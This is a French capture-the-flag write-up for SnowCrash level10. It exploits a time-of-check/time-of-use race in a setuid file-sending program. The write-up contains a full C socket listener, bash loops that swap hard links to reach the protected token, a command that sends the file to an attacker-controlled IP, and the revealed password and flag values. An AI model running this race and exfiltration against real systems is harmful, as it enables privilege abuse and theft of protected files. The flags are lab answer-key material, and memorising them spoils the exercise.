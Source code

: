 # Level10 - Time of Check to Time of Update Race
Pour résoudre le level10, on a un fichier level10 et un fichier token. level10 utilise un socket pour transmettre le contenu d'un fichier vers le port 6969 de l'IP indiquée en paramètres.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Pour que l'on puisse exploiter ce programme, on va avoir besoin de créer un programme serveur qui va écouter sur le port 6969 de notre VM de travail, et qui va récupérer la data qu'envoie le client depuis la VM SnowCrash.

```
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdlib.h>
#include <unistd.h> /* close */
#include <netdb.h> /* gethostbyname */
#include <errno.h>
#include <stdio.h>

#define INVALID_SOCKET -1
#define SOCKET_ERROR -1
#define closesocket(s) close(s)
#define PORT 6969

typedef int SOCKET;
typedef struct sockaddr_in SOCKADDR_IN;
typedef struct sockaddr SOCKADDR;
typedef struct in_addr IN_ADDR;

int main ()
{
        char buff[2048];
        //Creation du socket
        SOCKET ssocket = socket(AF_INET, SOCK_STREAM, 0);
        if (ssocket == INVALID_SOCKET)
        {
                perror("socket()");
                exit(errno);
        }

        //Creation de l'interface d'ecoute du socket
        SOCKADDR_IN sin = { 0 };

        sin.sin_addr.s_addr = htonl(INADDR_ANY);
        sin.sin_family = AF_INET;
        sin.sin_port = htons(PORT);

        if (bind(ssocket, (SOCKADDR *)&sin, sizeof(sin)) == SOCKET_ERROR)
        {
                perror("bind()");
                exit(errno);
        }

        //Linitation du nombre de connections
        if (listen(ssocket, 5) == SOCKET_ERROR)
        {
                perror("listen()");
                exit(errno);
        }


        SOCKET client_socket;
        while(1)
        {
                SOCKADDR_IN client_sin = { 0 };
                socklen_t clientLength = sizeof(client_sin);
                client_socket = accept(ssocket, (SOCKADDR *)&client_sin, &clientLength);
                if (client_socket == INVALID_SOCKET)
                {
                        perror("accept()");
                        exit(errno);
                }

                //Reception des datas
                int n = 0;
                bzero((void*)buff, sizeof(buff));
                while ((n = recv(client_socket, buff, sizeof(buff) - 2, 0) > 0))
                {
                        printf("%s\0\n", buff);
                        bzero((void*)buff, sizeof(buff));
                }
        }
        closesocket(ssocket);
        closesocket(client_socket);
}
```

On essaie d'envoyer un fichier simple avec `level10`, on reçoit bien son contenu sur notre serveur.
Malheureusement, nous n'avons pas les droits sur token, et une vérification de ces derniers semble etre effectuée avant l'envoi du fichier.

```
-- COTÉ CLIENT --

level10@SnowCrash:~$ ./level10 /tmp/toto 192.168.56.106
Connecting to 192.168.56.106:6969 .. Connected!
Sending file .. wrote file!

level10@SnowCrash:~$ ./level10 token 192.168.56.106
You don't have access to token

-- COTÉ SERVEUR --

.*( )*.
toto
```

En regardant les `strings` du programme, on s'aperçoit que ce dernier utilise la fonction `access`. Un tour sur le man et on peut y lire:
> Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

On est donc face à un cas de `Time of Check to Time of Update Race`, c'est à dire qu'entre le moment où l'on va vérifier si on a accès au fichier qu'on tente d'envoyer et le moment où on va l'ouvrir pour récupérer son contenu, il faut pourvoir tromper le programme pour lui faire ouvrir notre fichier `token`.

#### Pour cela, on crée deux scripts:

Le premier va venir créer un lien symbolique vers un fichier auquel on a accès, puis va supprimer ce lien et le remplacer par un lien vers notre token. Les deux liens auront le même nom et le même path, ce qui fera croire au programme qu'il ouvre bien le bon fichier.

```
#!/bin/bash
while :
do
        rm -f /tmp/faketoken
        ln /home/user/level10/level10 /tmp/faketoken
        rm -f /tmp/faketoken
        ln /home/user/level10/token /tmp/faketoken
done
```

Le deuxième va simplement envoyer en boucle notre lien au programme `level10`
```
#!/bin/bash
while :
do
/home/user/level10/level10 /tmp/faketoken 192.168.56.106
done
```

On lance notre serveur, et on exécute les deux scripts. Au bout de quelques secondes, on reçoit le contenu de `token` sur notre serveur.

```
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
...
```

On se connecte sur le compte flag10 et on obtient notre token:

```
level10@SnowCrash:/tmp$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

On a notre token: `feulo4b72j7edeahuete3no7c`

